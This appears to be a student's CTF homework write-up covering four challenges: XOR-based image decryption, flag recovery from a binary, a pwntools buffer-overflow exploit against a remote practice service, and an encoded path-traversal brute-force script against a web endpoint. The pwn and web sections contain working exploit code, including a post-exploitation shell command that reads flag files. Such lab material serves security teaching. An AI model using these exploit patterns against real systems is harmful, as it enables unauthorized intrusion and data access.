 # HW0 Writeups - nella17

## [HW0] to bf or not to bf `Crypto` [50]

`encrypt` use randint with same seed to xor image, xor two image to get flag.

```python
import cv2

flag = cv2.imread('flag_enc.png', cv2.IMREAD_GRAYSCALE)
golem = cv2.imread('golem_enc.png', cv2.IMREAD_GRAYSCALE)

h, w = flag.shape
for i in range(h):
    for j in range(w):
        flag[i][j] ^= golem[i][j]

cv2.imwrite('xor.png', flag)
```

<img src="./to bf or not to bf/xor.png" alt="xor" style="zoom:45%;" />

<div style="page-break-after: always;"></div>

## [HW0] XAYB `Rev` [50]

### Sol1

Copy encrypted data from binary, restore flag with little endian and xor.

```python
from pwn import p64, pack

enc = b''
enc += p64(0x9DC2A589B5B3BEB4)
enc += p64(0xA7C2ABADA5B3A5AD)
enc += p64(0xB99184BEADC2C7AD)
enc += p64(0xAD9A91869385AD8B)
enc += p64(0xCBC6A4B0BEADAD84)
enc += pack(0xB7B0A2A6)
enc += pack(0x8F95)
enc = enc.strip(b'\0')

flag = bytes(c ^ 0xf2 for c in enc).decode()
print(flag)
```

### Sol2

Patch `jnz short loc_156D` at `0x0151C` to bypass check.

![](./XAYB/run.png)

<div style="page-break-after: always;"></div>

## [HW0] Arch Check `Pwn` [50]

Just overflow, overwrite return address.

```python
from pwn import *

HOST, PORT = 'up.zoolab.org', 30001

exe = context.binary = ELF('./arch_check')

if args.REMOTE:
    io = remote(HOST,PORT)
else:
    env = {}
    io = process(exe.path)
    pause()

backdoor = 0x4011DD
payload = flat({ 0x28: backdoor })
io.sendline(payload)

# io.interactive()

io.clean(1)
io.sendline('cat /home/`whoami`/flag*')
flag = io.readuntil('}').strip()
success(flag)
```

<div style="page-break-after: always;"></div>

## [HW0] text2emoji `Web` [50]

Path traversal to access `/looksLikeFlag` endpoint, and brute force to get flag.
[ASIS CTF Finals 2018 (balsn.tw)](https://balsn.tw/ctf_writeup/20181124-asisctffinal/#proxy-proxy)

```python
from multiprocessing.pool import Pool
from multiprocessing import freeze_support
from time import time
def multi(func, init_list, processes = 16, debug = False):
    freeze_support()
    with Pool(processes) as pool:
        start = time()
        outputs = pool.starmap(func, init_list)
        outputs = [x for x in outputs if x]
        end = time()
        if debug: print('used time: {}'.format(end-start))
    return outputs

import requests
import json
import string

def send(flag):
    res = requests.post(
        url = "http://splitline.tw:5000/public_api",
        headers = { "Content-Type": "application/json" },
        data = json.dumps({ "text": f"%2e%2e/looksLikeFlag?flag={flag}" })
    )
    return res.json()['looksLikeFlag']

# /^FLAG{[a-z0-9_]+}$/
flag = 'FLAG{'
charset = string.ascii_lowercase + string.digits + '_' + '}'

def wrap(t):
    if send(t):
        return t

def main():
    global flag
    while '}' not in flag:
        flag = multi(wrap, [(flag+c,) for c in charset], len(charset))[0]
        print(flag)

if __name__ == '__main__':
    main()
```

